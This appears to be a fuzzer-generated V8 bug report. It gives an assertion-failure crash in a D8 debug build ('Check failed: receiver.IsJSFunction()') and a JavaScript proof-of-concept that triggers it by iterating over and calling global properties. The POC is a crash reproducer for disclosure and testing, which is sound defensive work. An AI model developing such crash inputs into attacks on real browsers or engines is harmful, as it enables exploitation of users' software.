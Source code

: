 Target : ASAN-D8-DBG Latest
Crash Type: Check failed: receiver.IsJSFunction().
Crash State: 

#
# Fatal error in ../../src/objects/js-objects.cc, line 516
# Check failed: receiver.IsJSFunction().
#
#
#

POC:
<b>-------------------------</b>-
function main() {
    const v1 = [0];
    const v5 = [12.42,isNaN,"[a-b-c]"];
    for (const v6 of v5) {
        try {
            const v8 = {a:12.42};
            for (const v10 in this) {
                const v11 = this[v10];
                const v12 = v8.__proto__;
                v12.toString = v11;
            }
            try {
                for (const v14 in this) {
                    const v15 = this[v14];
                    delete this[v14];
                    const v16 = v15(this);
                    delete this[this];
                }
            } catch(v17) {
            }
            for (const v19 in this) {
                const v20 = this[v19];
                const v21 = v20 - 1;
            }
            for (const v23 in this) {
                const v24 = this[v23];
                const v25 = v1.forEach(v24);
            }
        } catch(v26) {
        }
    }
    for (const v30 in this) {
        const v31 = this[v30];
        const v32 = v31(2);
        try {
            for (const v37 in this) {
                const v38 = this[v37];
                const v39 = v38(2);
            }
        } catch(v40) {
            v32.constructor = URIError;
        }
    }
    }
    
    main();
    
<b>-------------------------</b>-


*** - runtime flags - (null)
----
*** This sample was found through context aware fuzzing .
*** Fuzzer Generation - MK_0.243 .
